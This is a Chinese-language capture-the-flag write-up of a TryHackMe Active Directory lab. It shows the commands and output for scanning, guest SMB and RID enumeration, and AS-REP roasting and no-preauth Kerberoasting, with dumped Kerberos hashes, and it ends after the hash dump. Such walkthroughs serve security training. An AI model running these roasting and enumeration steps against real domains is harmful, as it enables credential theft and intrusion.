


# Recon
Tryhackme 有一个 Operation 系列 box, 按照名字这是最后一台了, 都是很不错的练手 box

```
PORT      STATE SERVICE           REASON          VERSION
53/tcp    open  domain            syn-ack ttl 128 Simple DNS Plus
80/tcp    open  http              syn-ack ttl 128 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec      syn-ack ttl 128 Microsoft Windows Kerberos (server time: 2026-09-11 13:23:03Z)
135/tcp   open  msrpc             syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn       syn-ack ttl 128 Microsoft Windows netbios-ssn
389/tcp   open  ldap              syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http          syn-ack ttl 128 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Issuer: commonName=thm-LABYRINTH-CA/domainComponent=thm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-12T07:26:00
| Not valid after:  2028-05-12T07:35:59
| MD5:   c249:3bc6:fd31:f2aa:83cb:2774:bc66:9151
| SHA-1: 397a:54df:c1ff:f9fd:57e4:a944:00e8:cfdb:6e3a:972b
| -----BEGIN CERTIFICATE-----
| MIIDaTCCAlGgAwIBAgIQUiXALddQ7bNA6YS8dfCQKTANBgkqhkiG9w0BAQsFADBH
| MRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZFgN0aG0xGTAX
| BgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwHhcNMjMwNTEyMDcyNjAwWhcNMjgwNTEy
| MDczNTU5WjBHMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxEzARBgoJkiaJk/IsZAEZ
| FgN0aG0xGTAXBgNVBAMTEHRobS1MQUJZUklOVEgtQ0EwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQC/NNh6IN5jNgejLjqq9/RVDR42kxE0UZvnW6cB1LNb
| 0c4GyNmA1h+oLDpz1DonC3Yhp9XPQJIj4ejN1ErCQFMAxW4Xcd/Gt/LSCjdBHgmR
| R8wItUOpOoXkQtVRUE4I7vlWzxBuCVo644NaNzbfqVj7M1/nCBjn/PPd2fX3etSX
| EsaI6bYcdmKRimC/94UP8qTs6Z+KGasXUmb7Sj8vscncY8lFLe9qREuiRrom5Q8A
| NySO4t8mtmqIHrBb8zTTZ9N/HxEOPDafCSTOjRhDVsOXVuWllTJujjSu+jJlBiF/
| aiXM7mOmsxH1rqCUK9mhZFSf/OhvgsvAq66sTBs1huE1AgMBAAGjUTBPMAsGA1Ud
| DwQEAwIBhjAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBQJcLfjxXJyk7BxDCNC
| pJb9vgIdEzAQBgkrBgEEAYI3FQEEAwIBADANBgkqhkiG9w0BAQsFAAOCAQEAmnUK
| Wj9AoBc2fuoVml4Orlg+ce7x+1IBTpqeKaobBx/ez+i5mV2U45MgPHPwjHzf15bn
| 0BnYpJUhlEljx7+voM+pfP/9Q21v5iXjgIcH9FLau2nqhcQOnttNj8I4aoDr5rRG
| fJJv+hAuNXxr/Fy5M7oghCpNqxseEU9OcgIPRHp6X/8bTtEYWaHnD3GS6uUR2jai
| PhReAcCPTbRwMRA3KsGRaBF3+PsIOL0JtCR+QGfOugPhUJFOU7w0dwbFmzfRcgKw
| bJhEy3o0FL5aqKVC823QJE7LosyLdtAqtZY7OgtT0Do7RZzdsZ1If0JmYmHTSRVz
| 8CvPpcCDp68aiTtqgA==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-09-11T13:23:46+00:00; -1s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?     syn-ack ttl 128
464/tcp   open  kpasswd5?         syn-ack ttl 128
593/tcp   open  ncacn_http        syn-ack ttl 128 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?          syn-ack ttl 128
3268/tcp  open  ldap              syn-ack ttl 128 Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl? syn-ack ttl 128
3389/tcp  open  ms-wbt-server     syn-ack ttl 128 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: AD
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: ad.thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-09-11T13:23:38+00:00
|_ssl-date: 2026-09-11T13:23:46+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=ad.thm.local
| Issuer: commonName=ad.thm.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-10T13:21:21
| Not valid after:  2027-03-12T13:21:21
| MD5:   7af0:15c0:7c5d:9197:a6be:7328:cb85:e84a
| SHA-1: d519:1cb4:582a:9984:1c69:e88c:a9dd:f14b:9d0c:28b8
| -----BEGIN CERTIFICATE-----
| MIIC3DCCAcSgAwIBAgIQGVZo5lAH2qVDaHrhFJEBSjANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxhZC50aG0ubG9jYWwwHhcNMjYwOTEwMTMyMTIxWhcNMjcwMzEy
| MTMyMTIxWjAXMRUwEwYDVQQDEwxhZC50aG0ubG9jYWwwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQCxP0gZG6p+PWQs0yP7oShFAN49aIUUhFB+F061DLnl
| eAj2hGzoHQUnEEx/z1XEWSiO5KWnqItfwgyalmEoErAvSLGFBU5Ft3GXpdCNs3Mx
| +AFKC0pxKvy+ZrbDCK2X1yNcicMGup2cxiRusJ2HjGt9t88feYzETjpqpBIi04zt
| 2qriCMlyng5kNn5XXF0pGy1b+D3r9on5iFV0Ft2rD+wG4KcT7YrpJSvRM+PUGd8e
| K6ZRSbFIZVe5PT5WTXZxbVtnuhnLmbm6PkoEyPgRUYw2zJPPs3WbxZ8K9OsDvDa6
| YE7LmBbRvZ87G+iUDvonfLWj4kY7S4fM/T5CGRZKOwx1AgMBAAGjJDAiMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
| frZEu+z6xix0bUEeTIP0hBhBqLalMkIpXYUFoUC1VNQKg7+6DLnlRaEwJZR1mtEQ
| w6N1+VBJLULGgRmy+Xk8W4mBnyJXns2XQ2anQUzyREnwm9Taa3X4787xOg27r4xv
| 4kPFWT5Np9+y13VlQ1HCRoXOu4EV9J77dSCnmKey1q9e5LqDb6avZ1L1ipLFhK1M
| VrT103rFr9/07Evf49Dxc1XfHjhNUjdC4F6a6eyesqhZhxHz8Vew6Ip5DpadctRk
| Lw/dhOvE5tt7eAfuhKnVjYny1H4ibKwU0wiliUGcDUnuw3KWsfCLBT4dH3RJ6UBn
| z62TT3vDHI0rzTC0ZpXsQA==
|_-----END CERTIFICATE-----
7680/tcp  open  pando-pub?        syn-ack ttl 128
9389/tcp  open  mc-nmf            syn-ack ttl 128 .NET Message Framing
47001/tcp open  http              syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: AD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-09-11T13:23:39
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 42161/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52658/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38919/udp): CLEAN (Timeout)
|   Check 4 (port 28514/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

标准的 DC 端口分布, TTL 均为 `28`, 与一跳后预期符合, 一些信息:
1. hostname: ad.thm.local
2. domain: thm.local

证书前名为主机名, 自签名证书, 无 ADCS 存在信息; 时钟偏差为 1s. 以及这次真没开 winrm:
```
nmap -sT -p5985 10.65.136.134
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-09-11 13:23 UTC
Nmap scan report for AD.thm.local (10.65.136.134)
Host is up (0.00026s latency).

PORT     STATE  SERVICE
5985/tcp closed wsman

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

## smb
Windows Server 2019, 可以以 guest 身份访问 smb 并列出共享, 可读取 `IPC$`
```sh
root@ip-10-65-111-239:~/wrk# nxc smb thm.local -u guest -p '' --shares
SMB         10.65.136.134   445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.65.136.134   445    AD               [+] thm.local\guest: 
SMB         10.65.136.134   445    AD               [*] Enumerated shares
SMB         10.65.136.134   445    AD               Share           Permissions     Remark
SMB         10.65.136.134   445    AD               -----           -----------     ------
SMB         10.65.136.134   445    AD               ADMIN$                          Remote Admin
SMB         10.65.136.134   445    AD               C$                              Default share
SMB         10.65.136.134   445    AD               IPC$            READ            Remote IPC
SMB         10.65.136.134   445    AD               NETLOGON                        Logon server share 
SMB         10.65.136.134   445    AD               SYSVOL                          Logon server share
```

### RID brute
老生常谈的标准操作:
```sh
root@ip-10-65-111-239:~/wrk# nxc smb thm.local -u guest -p '' --rid-brute 2000 > rid
root@ip-10-65-111-239:~/wrk# cat rid |grep 'TypeUser'|awk -F 'THM' '{print $2}'|awk -F '\' '{print $2}'|awk '{print $1}' > users
```

## ldap
```sh
root@ip-10-65-111-239:~/wrk# ldapsearch -x -H ldap://10.64.152.237
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 32 No such object
text: 0000208D: NameErr: DSID-03100220, problem 2001 (NO_OBJECT), data 0, best 
 match of:
	''


# numResponses: 1
```

# roasting
## asrep roasting
一份用户名列表, 考虑 asrep-roasting:
```sh
root@ip-10-65-111-239:~/wrk# GetNPUsers.py -usersfile ./users -request thm.local/
$krb5asrep$23$SHELLEY_BEARD@THM.LOCAL:b3e28443014c5e90b07978b484b3d0fc$3a8dc1c4c2a59a609e075d6646d756cfca3102efcc00d5c0139d175668cb71a92d287e9bf67737c865ed809a3566c68a23ddb92fa084ce61fdc0d33cb1970cd66b176a119701b188ee3b5f62941af4931a60eb8b52a6f79fde63321be4b60752c54ecacbef4b4ba0330531fb68f395322a0d825c182df93472153dc060d32fc82eab4c85de5687a1e3fecbd03eb9776f350cca7e0f7eb88332c65bd7b84f1beeae7328906305416e43aab24cc74ce9229524e78a3f00cede305519c5e4aa1c46afeffd7944ffaa5f5e93e14ce1388c58540e23007b02ddc8cee4ee599648a9d10bd3a234164e
$krb5asrep$23$ISIAH_WALKER@THM.LOCAL:50095ca60839aa93372691d1b82039bc$02a6727359b03e594d186791f92954b1382d54f90fe4fdbc0b561df277f9502f9d2cc4f9e9578815e78d5f6f718648cd6a4b47b21de0d7ac7a4008e97ed6ececa77977498c19d415bd4f89a779f5271a877f20b70ca6cbbd08c1f8ce75fc247665063073bda486b5bb82fb31f7345050772ae406ae685485d3e4d2a4ed773b55ca7deb2b5679d588cbbf47b45e71b6c0c7fdfe5271d3c30e5f82f3521343db6291a29aec1bade9db78f4af4081fc0ddc0fc4ab20e08999f215249da45073dc436411858cf5d81002d803abda55069b6a1173dac0d1984e5465e288652dc1eafb7ee413fe5932
$krb5asrep$23$QUEEN_GARNER@THM.LOCAL:a3a8ea7efb321f6377fc4e7e32573c06$b6c405e4d012f338961b186003de847fd2dce645a7b9700e97c4139891ea2c0cfa319ee12a13904769dda2ab320c908280499d27cbea913a67cf47fc7e1087cd575256c29b83d4b5545e91023a5d1dfac07445a5038a357199df6d577af02c492e8773503158142c46388745155963ac1ca146e5c78d3461b1e96b62b8d5a3da70a6d8194112493d3d19c84b7cde2a960a6d5231d1ea748549e2a795b2ed8b16a566380744c5b87c10fcaa9f5d11b2b7a0a61901ab0fc94c77742f43d9417924a903f6af34852a102a4de911bb30e86a23971e6d987a93d8b12930122f7292d12847c30be3f4
$krb5asrep$23$PHYLLIS_MCCOY@THM.LOCAL:e8b23ed2765ea5a41f610d2bb3e0dc16$1ebd88a016556a2406da7f58ef42f406dbf2d8660c85a9ed9f06c98eb0cc55812f0bc36e3d31a57efdc02e4236fb8a244bbb74f27cf84b1899c60ff471c4904f428f718808da2c1b961135f5c65d9523ff0f7a8b09520d1c8a249a98591033c67f01dd5892932c957ee40994e91dec424fed6f76a24d8762809a3b5e8db67bcb3d4869fe98417f7c5606d0930de25618201bac01d44a6f895d53a48fb1a77cb622b883687c2dd4c70ec96ccd2cb2d10814b010aa5ca4c4d2914044a1468b84d3bd74c32630ca06b757ccba55b8d98df0018bc58bfa3e021bb57652a95f85400fab2084d1fb17
$krb5asrep$23$MAXINE_FREEMAN@THM.LOCAL:6553a2e3393f14af9b81165fc509375c$5b2058359ecf23eebf9980a52e6a9d355d6ed7d3e852556b7c702aae50a9726eb7ceb0932a6d9182d060c7ae6282e1de1e8107488b2f1ffe510805e4678cf30ff6f4b5be030798de9ecd8b3214147688612ee8e7a3045cbb0dd03082e649a9ddfddb139823655d8083e36d16a2c1ac2459652ac828895239e8eefe17789fe2f23c4699f80969c19819d115c200ecbb46e421b655dee299c18933fe5eff0dcaab9b870fe5609227f2ec19731094ecac88c6aa3ad7df3b4e3041dd8c3e888216d4cb65e88cfaea07a86c960b0e5e0e8376874ecd340744dc9ea8344ebfabe4945c822e17e311db
```

尝试爆破, 但没一个成功:
```sh
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: ./h
Time.Started.....: Fri Sep 11 21:48:20 2026 (4 secs)
Time.Estimated...: Fri Sep 11 21:48:24 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/opt/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#02........: 20804.2 kH/s (0.59ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 0/5 (0.00%) Digests (total), 0/5 (0.00%) Digests (new), 0/5 (0.00%) Salts
Progress.........: 71721920/71721920 (100.00%)
Rejected.........: 0/71721920 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#02..: Salt:4 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#02...: (Mouton -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.SMC.: Fan0: 25%, Fan1: 25%
Hardware.Mon.#02.: Util: 95% Pwr:1113mW
```

==难道烧烤就到此为止了吗?==
## kerberoasting with DONT_REQ_PREAUTH
[该技术](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/) 在 2022 年末提出, 有些出乎意料的是很少看到 box 设置与该技术有关的环节
```sh
GetUserSPNs.py -no-preauth SHELLEY_BEARD -request -usersfile users thm.local/
$krb5tgs$18$krbtgt$THM.LOCAL$*krbtgt*$f5dcfb954281fd779444eeac$d5ae446007877e04bd3f7fa919b07b3b390d3d5748637e94d119d8a9db0ca542ff75daa654c791fee57975a5e79992cab4622f57735ebbac63b2ab9338b87333843603b41536fd7b7cb48c47f7e992011d67e514b97bd036016bd88de620c45d920899c748abeb12eb521587e2357e9f2d3169bb66086adca5ee060d7884e6f23f4d4ba4e5ebf1cc5a2467d530db5150d394fd424d0119a872b2ee02ad2f6812a30dde9a455f302df4474bf057ca5c5214a724210b9c2c13cb25ecc3fb9f2499f39a89a89976ed696a1516d2c0110e64760fc26897d65c49afbe0274b2e8f949bb3f7ec3d2838113dda465546509f59daa4f25409fa486a880851a25d58c74c75e6b84ce38f3998cb86fcb6101db1616570b27a1aac0b3ea19a088a709ba41bc0230e79c0583056610d3e3a5ecebf8f986b249883b80b881daad4701091fa388901094fa4c8777b6b62a8c8700cecdd1f244a09fc8475de2907f6f8e0bd2c9ee55faf5a4cf139cb32b0dd89628564c5a46fec650e29bc213fe777391f1544d69f1c965921fd9df32deef74abb1c43f03020d71ec300180f7e3e48e072838a95138b66c45886a27d460f8a7401ac28bc4e0fdbe6405b3af188f6c012fdd3a5e6d6c30a8c840a8dc40071d0d4567fb9a9127a4107646daaebeeaeaf6e6bccb468609495c2db8a471ce48e85d82ca8876f9a9b9dc18a4d654ae9c52fd810660243389279ff598987a6705991f3deacd438d235fd47698d078b8386a544c74fd033b860c9ae17f88b0f00d8250dfd7a19ade29f88ff0c856e457c36bf9c4c7b5ae1ec22945315f16eb2a3973f7a5be3b14f4b5caf770d3d6e2a5135467f3772a13c33ae0247bd6099184d49137699cb610153f674bf22343f4da26af35a2df8c56a465cf02c00761757476deb0d7fe3529d74aec2313b718e20e277679b49f9942b014a46b34d335c84481f03713ac23910ac940346cbf208397a07d333cf3e5947dcd3152fddc5eef6562c3686adb617b9174dc3d6bb802d7b42d22cd34396f31e4e977f556d0222b6c607e9d84959d948bd13d31c3f4704c7dc3080ca28d811a3837a0f7071354d4d0849223f608f0418ee057821ed141ce5d5e2a7b1e26c184cebd25c7d822d23a5f522f7cdde4480f9f223ec658fe04c018de7fb7540d871ba5659cf7b2fbfcd797bf6d276a7405162dc3f8342a484085b731263866150b655d6fc59f9564bbe8e7fcc744c07f140bc4842ce5ff079291ff3785104b71d67df59baa7f95e8318f522177dac7e2ae9f93670e0c16fbd17da7660e3df3cea23e7582f8ed4b35242251e7fa6f369d264eaf9004d6bc85d7dbea9643c582a655ae17faca5bae811636b78eb73a7be9d76fcf4ab296b32fa6d6ba013d48680e603e166c75d366674f8f13816618b81a3fc859886d43ac6ba59047ecd22cd35dd3fc33415bc12e8e5624916c58c1d6c6106cb86e335a444080f44bcf2d288a2c8560ef0a99014ef7155547f9dfe62d6fcdad2a912ab754816c37afecb8c998a34db4d16877bebc36384f56b42c2fd942656a8b53a938de56e41153e960af549527d4
$krb5tgs$18$AD$$THM.LOCAL$*AD$*$5df6cd1d91265fa0dd15744a$0e9ccd96254e17be98273c1b2494f93d8bfef36a0cb5f63880a1db81cdc67e00d5801af767f07729dee24a2084e47583d0c1e53b3aa6a2bc3cf5859d17d0eec2150b05afac41c45720d32ae073b3f9ce19af520ffa64f8738c1b7e57da89ae5ec32afe65b85165eabde923fa8b8c06869b96821a1f81f48668949db84f62f0052ff0c08c796aa8edb2f7973e4c966a798c166e6492d290d67d2b69b37a6b209322df389975a93abba11c52d916ff691b86cca3b0650e337b4d469770d98e8826995aa4ed7340d9568c744d6c08884b22b13d1b0d3eeca94374461d5352bc55d45f95b61f2bfe6c85591c3bac5f47115123493ce48d8ea1bfc33128d7a7b383763fbd77e08840f96edbb5ed8d84f004e9de2cfb9ad33b42a5e32816dd956eb48525e9b245fd3700ce82f5375e90af28cfce82e4f9bc7c2ac5e9084c94983c5ac5c25ee78757a028ab7d32a3395eba6a057c365da55e4dd6906255d3b2ae96b99976fc096c6b5b5fd314eb9c84fa28efd0ff5cde2201ec8828312e8e7498f1eede06dda4b7bddd52f075d22c9312e0e1e628060e640fd12e1aa41939ed690b1fdfc70b3c36498729d19c53d24dd41682816428db23fe22cbe28b89e1b43654ebb23a811bf312a5b6ae3f9d6e51d345eb79c90d4d6f2e8c5088356d7354b73f661854317fb2d6a6274ca60e59aadb25b17eb5d4c241d8d74e435d3b40cb4a9b586d2be9098753747b0920ea08cf0275a47622d6b1afb759c26633d9ba24f48b910b0dfb98a8bb12d70d7bd9dc091c9b430c8264aff80fbe79346fbcf2dc4d858a49673dcb808d6ed3958d49a1ca92356d1add032c5b4bcaea09739ae345c5c673e68312fa11d3405fc83ed2adcc90fe9e61176bbc0635e9db690c0880c3554cbacb69899fd0ca1f58b70697446c096c0e4c5f58f68d23ba798cf745e1127d3642031e05295599b8f6392cc51f3e59a9aaf18d1e56ef10ece0afd5398db99adc657cb8a660d0250f7930a39cace0ebd7dfdc0beb9abd0b6fc7b8f39fa10053b2b3723d045aa9f4965d7723a4bbdcb32d64b93bf46b221a507fb2f0de023b958bb4aa5dc5cae25eed7f2fcf29db01927e51a6105c821b6b18889962fd822996c2c3c8d1f8f7f70bb135dc74a3108a75737525cdc7264513e206e20f29fc430421bc904abaac8ef36357c9ce3088a37138d88243bf0ac9e3d131924cb9c23a866a2c501297f0d3d454d29f1b88a6c9efe3ce3ffca5d5200dc5a5434685d7c24f66d9b9da0e078258473ec22ec5b972b7bc186297ff175dc41cf059f91da6797dd8f7b58f2d62e3880b8fd752a6f73a7f2be2757f63dc64c569a17033180b5fb00df840b52b87be31716ee073e4f53af12b4f7f441dc0b6f6b55549e705f260d4155141cb11d60b8b3fe50daf12d5f6ace37460e57a05e43ff2ced90d95e1019491d6a583fa0fa7f952ce67f580a69edcb5343481bc57463750f4
$krb5tgs$23$*CODY_ROY$THM.LOCAL$CODY_ROY*$9f452a37f5f704a127250d1600451ad5$b395fc07d502024e93443ec761fe9ef4b6ecaac0306fcca3b5d1d45aca0228e43a0fc09be93d09fa2a113fca2572ee3500018fdc728623695167451a3fea08c7bcbebb2e01facfb5a617f9e6d9b05fa29564080be04171daa1459bd8c6b6666c7be01d331b7f0dcc46295f3b1166549efce0b443f2ea51ce21c73bfb16a50a1e6c300199bb4e8826fe8a428d7e285566ab619c9645ec2928f6f88d3800608cbc65a286a446aaea7500e4d9405f78ecf077fee09a2d205429e79b14e1b668befe194d39c14ecfd52364ec4232eb504c2f0e7f9a425441234c1c8857c90607620b8b1f82bf3b4c01266cce577ee28bf02d8d84f9b9c74f57b2b8d1f466aee7bac1210a00b1eb75d829775b652ad8c65f25ee7a8513873b878182ffbc2c095e541089cd2ea847caac168ff453c449b762dfcde2ff8d521e05311f8f6c50e19a5c3244b657e5f61e24c9c3a27a4214fece846e68e04a6ac37b526c7dee8d7bc8860523d0233a17ecd75f78703aa863d96b79def89a5f153ae5577bd2fb51fc3146aa924b1c04e0c19be00cf4e655de022d49ddee5e12c72002446a14c42ab8ae958160195f4115e318b7c76f32d01db913930ece7ed8b0ad763ea81b20645e7b34bc67da558b3809241b1b94bacf68e79868bc78c5faeea6a12794d254b85fa24e417b44fc5c55c641926fca2efb20479f06b43e8e778143c77686fdefb7837a992fbf54617282f1fcaffd3afd6058ad4ac97885dfd23a2bf5cc3f28dac0a5a3463790a3e968134d75598818a8740bf8bc0f5cb6f2e0f39341403a0ce67b78362177ce3990d94fc6735b64ca7b38785488f0fedbc323caad4160bdd423dcc5a504a3f87f4862e54209d8845f92a59cc8d2339534eb01aa713fa82f34b1987fecc709ef21be10ff878da3d4dd300cd857bdca75e4d5e192b6d04f65f24506c27d42a4f849698efa18fb82373daae8889a36715ff5b667747b5c7087ea03981fe1d811ed04bf0e99e085290178872402e27e6d5c612e88ff29188503d7125ef8f2d8d810c5032b33d7edd63d1a8ce7670c1450aaa4d87080818610cea4be91105f7b1f7e2d716c4c475aacb77c2320a5cb243188eb39fe658ac5ff34eb9d4f09bfc7deea1c56f51e47765f19eae23bf1703a19b8a02ed332bc2d3446e3193edfea7f380f854331c8a6edb90195003db0559ef7b5f6232afb10f051a58ecb2fc0367a5eaf783b08038b7573c30a16c6707cfa9c3a8aa2b4caa30c0b4bd35ff88c7265af79cd9c4d3ce12a4b21b5eebf530f84c14b8c615e95737a01781676cdecaa78e9c01bdcdb22c32e0a89fe60aa69b18e6dab51ff6a7272180ce878fe754aa044b281bc97ea65d66a7dabb93b98f3adfc20357ab2c514d5eba877979c162359971d4e15999b6ebae46a679c52d26943cc6069c84fee00b9fdec3ca36723e5cbf5178ce43a37cbfdd85762184725f62bed00a58a5d32a7426b
$krb5tgs$23$*CHRISTIAN_SANFORD$THM.LOCAL$CHRISTIAN_SANFORD*$d5f3a9b1ba5e685299831d333875b21e$6490a7d17d23d3bfb9498f85505e22400327a802d724a6c251cef8d2006a8b05c992029051940c200ab5791cac76d6b6439df1822c90b46be10689125c1770bb72ffcd2d16083814ff3cde130efbdaf16f6c428af2fee52dc5cb07093bee39b4c6bfc5b888735023715ef4d4585c120a6fc9212492b93d5002e4bc67011c75ae623f3d33e7e58c1755d0c7d9d6c7b14ea99f742faf316ad523334ea7c3abf697cfe96ee8311d3ac5640d5c93c828e0d7d909545614e9bae53f270bd67f193d9f2b8c499c76e9b3bc8b19f684ca625a9c80ba524c78bb4bdfa3fa29ce57c9ea7633be4a5ab96c749382da390cba2b7380a4bae948770ec4e37da356a8bde72c5b0b0f71e5b3747168f281aced2d319aa43ddd1d2fd66197d3c7b790bfd9f988ac78e4dc4f2eecfedec8af5872d3d40eab2575fe90a063d2d06671798ec0de8dc12176596ab2af36b97b74a47b6571d7be6a7a3ac17b5736ad0e785ca8caedf0ec1260b24cb2cb351b417b878c68f9953c9092aea8cbfddb530f169065176a505c82192a32045e87d5174f3d6d16766a8e8c6a69d4f9074bab70bc06157ed1c3e29451e2efe26b7e29fda4a7c8bdf5cd61366ade3eda62f2921f556a1cb517c2455b9235dbadecdb65dec71a78a702d756dfadecf146c822193417e44d0f092a0f674127502ef1651c2a0cb59a6e1148c0341b54da4ed39a00a225547015c30c96ba9600ef13efd096beded0aa77059f6db0c9eb91c6e47ba67ebf63076a759a46b96e54f16f0cd361a3f9ff75d2fbc8a163d07df83075286f34eae489fe28af2da7165b8cc3af21d51e290224cd306f7d8f37b1382b3b5d99003fef76b1f4f4eb949725d526fb4b5301e61403506393d206231f7a30cd91bf869ec61cac285a89d338083ae63be3884ed541014ced5d72d81a27946971fe5bd677d6b8d8d2af8d82ecd40a1f75f891e17a33bbfb8212547bacee441bfce6d537959d96e